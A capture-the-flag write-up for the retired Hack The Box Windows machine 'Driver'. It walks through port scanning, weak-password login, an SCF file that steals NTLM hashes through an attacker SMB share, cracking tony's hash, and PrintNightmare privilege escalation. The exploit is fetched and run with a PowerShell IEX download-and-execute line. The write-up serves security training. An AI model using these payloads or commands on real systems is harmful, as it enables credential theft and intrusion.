


# Driver by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Driver  | 10.10.11.106  | Windows            | 20       | 4.7      | 10051       | 8802        | Yes       | 2021-10-02     | 2022-02-26     | No         | 387          |

## Summary
1. Scan ports -> 80,135,445,5985
2. Password guessing on port 80 -> `admin:admin`
3. Uploads reviewed by interanl team -> `SCF Hash Stealing`
4. Crack user `tony` hash -> `tony:liltony`
5. Evil-winrm with `tony` creds -> User shell as `tony`
6. Enumerate with winPEASx64 -> `spoolsv` service
7. PrintNightmare exploit -> New user `k0rriban:revan1234` in `Administrators Group`
8. Evil-winrm with `k0rriban` creds -> Admin shell as `k0rriban`

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Windows.
```bash
❯ ping -c 1 10.10.11.106
PING 10.10.11.106 (10.10.11.106) 56(84) bytes of data.
64 bytes from 10.10.11.106: icmp_seq=1 ttl=127 time=41.9 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -sS --min-rate=5000 -p- -n -Pn 10.10.11.106 -v -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.11.106 

	[*] Open ports:  80,135,445,5985 


[*] Ports have been copied to clipboard...
```
Now, we will run a detailed scan on the open ports.
```bash
❯ nmap -p80,135,445,5985 -A -n 10.10.11.106 -v -oN Enum/targeted
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn\'t have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### Final nmap report
| Port | Service | Version | Extra |
| :-: | :-: | :-: | :-: |
| 80   | http    | Microsoft IIS httpd 10.0 | - |
| 135  | msrpc   | Microsoft Windows RPC | - |
| 445  | smb | 10 microsoft-ds | Microsoft Windows 7 |
| 5985 | http    | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) | - |

First thing we can try is anonymous connection to the host's port 445:
```bash
❯ smbclient -L //10.10.11.106// -U "anonymous"
Can\'t load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\anonymous]:
session setup failed: NT_STATUS_LOGON_FAILURE
```
The `anonymous login` is not allowed. So let's have a look at the port 80:

### Port 80 enumeration
#### Login bypass
Before accessing to any content on the web, we need to login. If we try weak credentials, we find out that `admin:admin` works out and we obtain access to the web. Once logged in we can see an email that suggests the domain name can be `driver.htb`, so we add it to `/etc/hosts`.

#### Technology scan
```bash
❯ whatweb 10.10.11.106
http://10.10.11.106 [401 Unauthorized] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.106], Microsoft-IIS[10.0], PHP[7.3.25], WWW-Authenticate[MFP Firmware Update Center. Please enter password for admin][Basic], X-Powered-By[PHP/7.3.25]
```
Toguether with `wappalyzer` (once logged in):
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Microsoft IIS | 10.0 | - |
| PHP | 7.3.25 | - |
| Popper | 1.12.9 | - |
| JQuery | 3.2.1 | - |
| Bootstrap | 4.0.0 | - |
| Windows server | - | - |

#### Subodmain fuzzing
As we need to authenticate to access any resource on the server, we will omit content fuzzing and just perform a subdomain enumeration.
```bash
❯ wfuzz -c -u "http://driver.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.driver.htb" --hc 404,401
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://driver.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000009532:   400        6 L      26 W       334 Ch      "#www"            
000010581:   400        6 L      26 W       334 Ch      "#mail" 
```
We didn't find any useful subdomain.

#### Manual enumeration
We can manually enumerate the content and vulnerabilities of the page. When we login as admin we get redirected to `http://driver.htb/index.php`:

As the only working link is `http://driver.htb/fw_up.php` we access it and see:

As the webpage says `our testing team will review the uploads manually and initiates the testing soon`, we can think the machine is vulnerable to SCF.

## SCF Hash stealing (User shell)
To test if the target is vulnerable to SCF, we will craft an `.scf` file:
```bash
❯ nvim Exploits/file.scf
❯ cat Exploits/file.scf
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/file.scf
       │ Size: 85 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ [Shell]
   2   │ Command=2
   3   │ IconFile=\\10.10.16.2\ordinary.ico
   4   │ [Taskbar]
   5   │ Command=ToggleDesktop
───────┴───────────────────────────────────────────────────────────────────────────
```
And will create a resource with `impacket-smbserver`:
```bash
❯ sudo ./Exploits/smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Now, if we uplaoad the file, the system will try to download the `IconFile` from our smbserver, allowing us to collect its hash:
```bash
[*] Incoming connection (10.10.11.106,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:8dd8a7a9df208b856e43569e67046129:0101000000000000801740d16878d8010296292c604c04a200000000010010004800530048006f005100560062007200030010004800530048006f00510056006200720002001000430068006d006700690045007500550004001000430068006d006700690045007500550007000800801740d16878d80106000400020000000800300030000000000000000000000000200000b7a47f950ec4212475ca3b4ad91df105524d2fbfd251e000d91a9be6ab6d061f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003200000000000000000000000000
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found ordinary.ico
[-] SMB2_TREE_CONNECT not found ordinary.ico
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.11.106,49414)
[*] Remaining connections []
```
Success! The victim established a conection and we obtained a hash `NTLM v2`, we can try to crack it:
```bash
❯ nvim Results/tony_hash
❯ cat Results/tony_hash
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/tony_hash
       │ Size: 556 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ tony::DRIVER:aaaaaaaaaaaaaaaa:8dd8a7a9df208b856e43569e67046129:01010000000
       │ 00000801740d16878d8010296292c604c04a200000000010010004800530048006f0051005
       │ 60062007200030010004800530048006f00510056006200720002001000430068006d00670
       │ 0690045007500550004001000430068006d006700690045007500550007000800801740d16
       │ 878d80106000400020000000800300030000000000000000000000000200000b7a47f950ec
       │ 4212475ca3b4ad91df105524d2fbfd251e000d91a9be6ab6d061f0a0010000000000000000
       │ 000000000000000000009001e0063006900660073002f00310030002e00310030002e00310
       │ 036002e003200000000000000000000000000
───────┴───────────────────────────────────────────────────────────────────────────
❯ john --wordlist=/usr/share/dict/rockyou.txt Results/tony_hash
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2022-06-05 01:17) 7.692g/s 252061p/s 252061c/s 252061C/s smile4..dumbo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
We managed to crack it and found the credential `tony:liltony`. We can test this credential with `crackmapexec`:
```bash
❯ crackmapexec smb 10.10.11.106 -u "tony" -p "liltony"
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony
```
The credentials are valid, finally, to test if we can connect to the machine:
```bash
❯ crackmapexec winrm 10.10.11.106 -u "tony" -p "liltony"
SMB         10.10.11.106    5985   NONE             [*] None (name:10.10.11.106) (domain:None)
HTTP        10.10.11.106    5985   NONE             [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   NONE             [+] None\tony:liltony (Pwn3d!)
```
As we obtained a response `Pwn3d!`, we can connect to the victim machine with `evilwinrm`:
```bash
❯ evil-winrm -i 10.10.11.106 -u "tony" -p "liltony"

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```
We obtained a user as `tony`, we managed to connect thanks to `tony` being part of the `Remote Management Users` group.`

## Privilege escalation
In order to perform privilege escalation, we will upload `winPEAS` to the victim machine, and execute it:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> upload /home/r3van/HTB/Tools/winPEASx64_ofs.exe
Info: Uploading /home/r3van/HTB/Tools/winPEASx64_ofs.exe to C:\Users\tony\Desktop\winPEASx64_ofs.exe

                                                             
Data: 2397524 bytes of 2397524 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\Desktop> .\winPEASx64_ofs.exe
```
From its output we can enumerate:
- AV: `disabled`
- UAC Status: `LocalAccountTokenFilterPolicy set to 1`

Winpeas didn't return anything useful, so we will try to enumerate it manually:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> ps

Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
     40       4     2056       1504 ...67     6.61   2084 cmd
    113      10    10660       6884 ...45    14.16   1944 conhost
     99       8    10132       9180 ...18     0.02   3276 conhost
    316      14     1172       4092 ...03             340 csrss
    261      18     1200       4076 ...08             456 csrss
    204      13     3344      12068 ...02            2204 dllhost
    331      25    31976      50432 ...05             800 dwm
    508      27     8668      30784 ...32     0.34    100 explorer
    557      34    10176      35324 ...46     0.20   1708 explorer
   1404      59    16908      61580 ...67    81.95   3128 explorer
    508      27     8704      30892 ...32     0.28   4868 explorer
      0       0        0          4     0               0 Idle
    958      23     4956      14636 ...01             572 lsass
   3181      39      460       2556 ...61     0.02   4140 more.com
    173      13     2316       8860 ...95            2452 msdtc
    470      38    15908      43688   302     2.81   4580 OneDrive
     55       6      732       3328 ...65     0.00    332 PING
    294      18     6636      23404 ...81     1.06   3180 RuntimeBroker
    683      45    23152      28128 ...44            2680 SearchIndexer
    754      48    30104      71016 33077     0.81   3760 SearchUI
    181      12     2688      10484 ...02            4400 sedsvc
    247       9     2540       6340 ...73             564 services
    645      31    13996      46652   252     0.52   3648 ShellExperienceHost
    343      15     3472      17732 ...47     0.95   3044 sihost
     49       3      340       1184 ...56             264 smss
    381      22     5264      13984 ...13            1212 spoolsv
    534      20     4972      17068 ...17             656 svchost
    512      17     3368       8964 ...90             708 svchost
   1318      53    15484      38296 ...20             812 svchost
    172      12     2096      12312 ...26     0.00    820 svchost
    562      26    11120      18160 ...37             864 svchost
    211      16     1964       8292 ...96             872 svchost
    422      21     4792      17732 ...46             936 svchost
    765      27     6028      14088 ...39            1020 svchost
    647      46     9012      21848 ...27            1048 svchost
    488      42    13608      23496 ...65            1304 svchost
    128      11     3068       9276 ...97            1508 svchost
    277      18     4924      14772 ...07            1524 svchost
    187      15     3512      15216 ...57            1616 svchost
    183      15     3416       9936 ...04            1684 svchost
    116       9     1280       6156 ...77            2968 svchost
     99       7     1152       5996 ...87            3448 svchost
    850       0      120        140     3               4 System
    275      28     4540      13656 ...16     1.19   1360 taskhostw
    138      11     2712      10428 ...22            1720 VGAuthService
    108       7     1308       5520 ...06            1656 vm3dservice
    100       8     1380       6024 ...28            2016 vm3dservice
    333      23     9580      21940 ...56            1644 vmtoolsd
    211      18     4972      15188 ...67     1.48   4524 vmtoolsd
     89       9      976       4736 ...74             448 wininit
    182       9     1824       8756 ...22             500 winlogon
    327      19     9536      19512 ...96            2376 WmiPrvSE
   1484      32    79424      99124 ...71     4.36   3568 wsmprovhost
   1251      33   150372     171656 ...72    10.02   4692 wsmprovhost
    219      10     1544       7140 ...92             748 WUDFHost
```
Pay attention to the `spoolsv` service, related with the printer information we saw on foothold. If we look it up in google we find the [CVE-2020-1030](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1030) and exploits related to a more recent [CVE-2021-34527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527). We donwload `PrintNightmare` from the [Github repo](https://github.com/JohnHammond/CVE-2021-34527) and run it on the victim:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> upload /home/r3van/HTB/Tools/CVE-2021-34527/CVE-2021-34527.ps1
Info: Uploading /home/r3van/HTB/Tools/CVE-2021-34527/CVE-2021-34527.ps1 to C:\Users\tony\Desktop\CVE-2021-34527.ps1

                                                             
Data: 238084 bytes of 238084 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\Desktop> Import-Module .\CVE-2021-34527.ps1
File C:\Users\tony\Desktop\CVE-2021-34527.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\CVE-2021-34527.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```
As the `Import-Module` command is not working, we can try installing the exploit with `IEX`:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> IEX(New-Object Net.WebClient).downloadString("http://10.10.16.2:4444/CVE-2021-34527.ps1")
```
Success! Now we can run:
```powershell
*Evil-WinRM* PS C:\Users\tony\Desktop> Invoke-Nightmare -DriverName "Xerox" -NewUser "k0rriban" -NewPassword "revan1234" 
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user k0rriban as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
*Evil-WinRM* PS C:\Users\tony\Desktop> net user k0rriban
User name                    k0rriban
Full Name                    k0rriban
Comment
Users comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/5/2022 9:15:44 AM
Password expires             Never
Password changeable          6/5/2022 9:15:44 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```
We created a new user `k0rriban` and added it to the `Administrators` group. Let's check the connection via `evil-winrm`:
```powershell
❯ crackmapexec winrm 10.10.11.106 -u "k0rriban" -p "revan1234"
SMB         10.10.11.106    5985   NONE             [*] None (name:10.10.11.106) (domain:None)
HTTP        10.10.11.106    5985   NONE             [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   NONE             [+] None\k0rriban:revan1234 (Pwn3d!)
❯ evil-winrm -i 10.10.11.106 -u "k0rriban" -p "revan1234"

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\k0rriban\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/4/2022  10:01 PM             34 root.txt
```
We successfully obtained an Administrator user and the `root.txt` file.


## CVE
### [CVE-2020-1030](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1030)
An elevation of privilege vulnerability exists when the Windows Print Spooler service improperly allows arbitrary writing to the file system, aka 'Windows Print Spooler Elevation of Privilege Vulnerability'.
### [CVE-2021-34527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34527)
Windows Print Spooler Elevation of Privilege Vulnerability 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | d4912a84f90aa3073a025216b50c6716 | No | 05-06-2022|
| Root | c6544ce0ae40db5f58e74509dec3e69b | No | 05-06-2022|

## References
- https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#shell-command-files
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1030
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-1675